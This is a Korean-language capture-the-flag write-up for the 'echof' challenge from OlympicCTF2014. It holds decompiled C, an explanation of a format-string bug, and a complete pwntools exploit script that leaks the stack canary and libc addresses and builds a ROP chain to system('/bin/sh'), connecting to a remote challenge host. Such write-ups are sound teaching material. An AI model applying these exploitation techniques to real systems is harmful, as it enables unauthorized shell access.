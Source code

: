 ```yaml
---
layout: post
title: Writeup - echof (from OlympicCTF2014)
---
```

# echof

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int *result; // eax
  int *v4; // eax
  signed int i; // [esp+30h] [ebp-110h]
  size_t v6; // [esp+34h] [ebp-10Ch]
  int *mm; // [esp+38h] [ebp-108h]
  char buf; // [esp+3Ch] [ebp-104h]
  unsigned int v9; // [esp+13Ch] [ebp-4h]

  v9 = __readgsdword(0x14u);
  puts("pw?");
  fflush(stdout);
  read(0, &buf, 8u);
  result = (int *)memcmp(&buf, "letmein\n", 8u);
  if ( !result )
  {
    for ( i = 0; i <= 15; ++i )
    {
      puts("msg?");
      fflush(stdout);
      bzero(&buf, 0x100u);
      read(0, &buf, 0x80u);
      v6 = strlen(&buf);
      if ( strchr(&buf, 'n') )
        return puts("i hate this symbol!");
      mm = (int *)mmap(0x11111000, 0x1000, 3, 50, -1, 0);
      if ( mm == (int *)-1 || !mm )
      {
        perror("mmap");
        exit(-1);
      }
      v4 = mm + 33;
      *v4 = 'ruoY';
      v4[1] = 'sem ';
      v4[2] = 'egas';
      v4[3] = 'd%( ';
      v4[4] = 'tyb ';
      v4[5] = ':)se';
      v4[6] = '\ns% ';
      *((_BYTE *)v4 + 28) = 0;
      mm[32] = (int)(mm + 33);
      strncpy((char *)mm, &buf, 0x80u);
      *((_BYTE *)mm + v6) = 0;
      sprintf(&buf, (const char *)mm[32], v6, mm);
      puts(&buf);
      fflush(stdout);
      result = (int *)munmap(mm, 0x1000u);
    }
  }
  return (int)result;
}
```
## 분석
NX, ASLR, PIE, stack canary, full RELRO가 모두 걸려있는 바이너리이다.

buf를 0x80 바이트로 꽉꽉 채워 `mm[32]`의 least significant byte를 0으로 덮어씌우면 원래 `mm[33]`을 가리키던 주소가 `mm[0]`로 바뀌어 마음대로 FSB를 할 수 있게 된다.

중요한 점은 모든 payload가 0x00이 포함되지 않은 128 byte string이 되도록 만드는 것이다. `strlen()`함수의 값이 128이 되어야 FSB가 가능하기 때문에 null byte가 포함되면 안된다. 이게 어려운 이유는 stack canary의 least significant bit가 항상 0이기 때문인데, 이는 `"%2$c"`와 같이 이미 stack에서 0이 들어있는 부분을 format string으로 출력하게 해서 해결할 수 있었다.

Full RELRO가 적용되어 있으므로 got overwrite가 불가능하고 ROP로 문제를 해결해야 한다. ROP를 하기 위해서는
1.  libc system 함수와 /bin/sh string의 위치
2.  stack canary 값
을 알아야 한다.

1을 얻기 위해서는 FSB를 통해 got의 값을 아무거나 읽으면 된다. 하지만 PIE가 적용되어 있어 got의 위치가 매번 바뀐다. 이는 return address를 선제적으로 알아내  code 영역이 할당된 위치를 구함으로서 해결할 수 있다.

2는 stack canary의 위치를 알고 있으므로 FSB로 쉽게 구할 수 있다. 따라서 우리가 알아낸 정보들을 바탕으로 침착하게 ROP를 하면 shell을 딸 수 있다!


## 풀이
```python
from pwn import * 

#p = process("./echof")
p = remote("remote.goatskin.kr", 49281)
context.log_level = "debug"

# Step 1: leak code offset &
payload1 = "%80$x|%78$x|"
payload1 += (128 - len(payload1))*"A"

p.send("letmein\n")
p.send(payload1)
p.recvuntil("msg?\n")
p_ret_raw = p.recvuntil("|")[:-1]
canary_raw = p.recvuntil("|")[:-1]
p_ret = int(p_ret_raw, 16)
canary = int(canary_raw, 16)
base_code = p_ret - 0x840

log.info("canary: " + hex(canary))

# Step 2: read got w/ FSB
offset_got_lsm = 0x1FD8
payload2 = p32(base_code + offset_got_lsm) + "%14$s|"
payload2 += (128 - len(payload2))*"A"
p.send(payload2)
p.recvuntil("msg?\n")
p_lsm_raw = p.recvuntil("|")[4:8]
p_lsm = u32(p_lsm_raw)

p_system = p_lsm + 0x22c70
p_sh = p_lsm + 0x147133
log.info("p_lsm: " + hex(p_lsm))

# Step 3: rop

payload3 = "%256c" + "%78$c" + p32(canary)[1:]
payload3 += p32(p_system)*5 + p32(p_sh)
payload3 += (128 - len(payload3))*"A"
p.send(payload3)

p.send("n")

context.log_level = "info"
p.interactive()
```
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTQ5NTAxODc1NSwtMTI0MTcxNTU4LC00MD
M2NDcxMjEsLTE0MDk5NDI0MTYsLTIxMjgwMzIyMzJdfQ==
-->